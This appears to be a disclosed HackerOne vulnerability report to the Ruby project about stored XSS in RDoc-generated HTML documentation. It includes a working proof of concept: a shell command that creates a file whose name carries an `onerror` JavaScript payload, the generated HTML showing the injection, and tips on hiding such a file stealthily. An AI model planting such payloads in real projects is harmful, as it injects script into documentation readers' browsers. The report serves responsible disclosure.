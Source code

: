 # XSS exploit of RDoc documentation generated by rdoc

## Report Details
- **Report ID**: 1321358
- **URL**: https://hackerone.com/reports/1321358
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-27T12:35:33.795Z
- **Disclosed**: 2023-07-18T08:42:46.672Z

## Reporter
- **Username**: sighook
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
When creating  an RDoc html documentation, there is a possibility to inject malicious code through file name.

# PoC

```bash
~ $ touch \"\>\<object\ src\=1\ onerror\=\"javascript\:alert\(1\)\;\"\>Controlling\ what\ is\ documented\ here
~ $ ls
"><object src=1 onerror="javascript:alert(1);">Controlling what is documented here
~ $ rdoc --all
```

Now, the generated index file has injected javascript code:

```html
...
<li><a href="./"><object src=1 onerror="javascript:alert(1);">Controlling what is documented here.html">&quot;&gt;&lt;object src=1 onerror=&quot;javascript:alert(1);&quot;&gt;Controlling what is documented here</a>
...
```

I set to the vulnerability the same severity as CVE-2013-0256 has, since rdoc is widely used on dev/production systems online documentation, etc.  An attacker can hide a bad-named-file deep in the project structure to be stealthy. Also,  the file can be very tricky-named in documentation list, can contain the real documentation code, and so as not to arouse suspicion for some time.

## Impact

The injected code can exfiltrate data or install malware on the (user|developer)’s machine, etc.

## Attachments
- 21-08-21-15_32_35.png
